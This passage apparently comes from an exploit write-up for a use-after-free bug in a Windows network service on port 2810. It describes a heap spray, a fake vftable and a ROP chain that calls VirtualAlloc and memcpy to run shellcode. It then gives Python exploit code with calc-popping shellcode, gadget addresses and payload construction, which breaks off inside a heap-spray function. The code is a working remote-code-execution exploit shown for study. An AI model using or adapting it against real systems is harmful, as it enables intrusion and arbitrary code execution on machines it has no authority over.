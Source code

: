 {{img(id="img/heap_state.png" class="textCenter")}}

We then race the UAF by sending commands 10001 in a loop that allocate objects of size 0x28, if we get lucky we will overwrite the UAF object and point the the vftable to our fake vftable that we sprayed in the heap.

I then created a simple ROP chain that uses `xchg eax, esp; ret` to pivot the stack to our controlled fake vftable, a good reason to use the second call instead of the first in the "use" state. The ROP chain then saves the original stack pointer in ESI for process continuation, which I didn't end up implementing. The chain then calls VirtualAlloc from the imports table to allocate RWX memory at a known address and then uses memcpy to write a shellcode to that address and finally jumps to it.

Below you can find a video popping a calculator since it's customary and the exploit code.
{{ youtube(id="-XKOOgto86g" class="textCenter") }}

```python
import socket, struct, time
from multiprocessing import Process

HOST="PUT.SERVER.IP.HERE"
PORT=2810
socket.timeout(10)

u32 = lambda ba: struct.unpack('<L', ba)[0]
p32 = lambda i: struct.pack('<L',i)

# SkyLined's Calc shellcode
calc = (
b"\x31\xD2\x52\x68\x63\x61\x6C\x63\x89\xE6\x52\x56\x64"
b"\x8B\x72\x30\x8B\x76\x0C\x8B\x76\x0C\xAD\x8B\x30\x8B"
b"\x7E\x18\x8B\x5F\x3C\x8B\x5C\x1F\x78\x8B\x74\x1F\x20"
b"\x01\xFE\x8B\x4C\x1F\x24\x01\xF9\x42\xAD\x81\x3C\x07"
b"\x57\x69\x6E\x45\x75\xF5\x0F\xB7\x54\x51\xFE\x8B\x74"
b"\x1F\x1C\x01\xFE\x03\x3C\x96\xFF\xD7")


rop_chain = p32(0x489c45)   # 0x489c45 --> xchg eax, edi ; ret ; \x97\xc3
rop_chain+= p32(0x1005084E) # jmp VirtualAlloc
rop_chain+= p32(0x428f50)   # 0x428f50 --> ret ; \x64\xc3
rop_chain+= p32(0x06000000) # lpAddress
rop_chain+= p32(0x00001000) # dwSize
rop_chain+= p32(0x00003000) # flAllocationType (MEM_COMMIT | MEM_RESERVE)
rop_chain+= p32(0x000040)   # flProtect
rop_chain+= p32(0x428f50)   # 0x428f50 --> ret ; \x64\xc3
rop_chain+= p32(0x428f50)   # 0x428f50 --> ret ; \x64\xc3
rop_chain+= p32(0x428f9f)   # 0x428f9f --> pop eax ; ret ; \x58\xc3

rop_chain2 =p32(0x049B05E)  # jmp memcpy
rop_chain2+=p32(0x06000000) # lpAddress
rop_chain2+=p32(0x06000000) # dest (lpAddress)
rop_chain2+=p32(0x33150B0)  # src (shellcodeAddress)
rop_chain2+=p32(len(calc))  # count


payload = rop_chain
payload+= p32(0x403610) # heap + 0x28: 0x403610: retn 0x0008 ; \xc2\x08\x00
payload+= rop_chain2
payload+= b"B"*0xC      # padding
payload+= p32(0x428e15) # heap + 0x4c: 0x428e15 --> xchg eax, esp ; ret ; \x94\xc3
payload+= calc          # shellcode

heap_addr = p32(0x3315060) # target heap address after heap spray

def heap_spray():
    for j in range(16):
        for i in range(4096):
```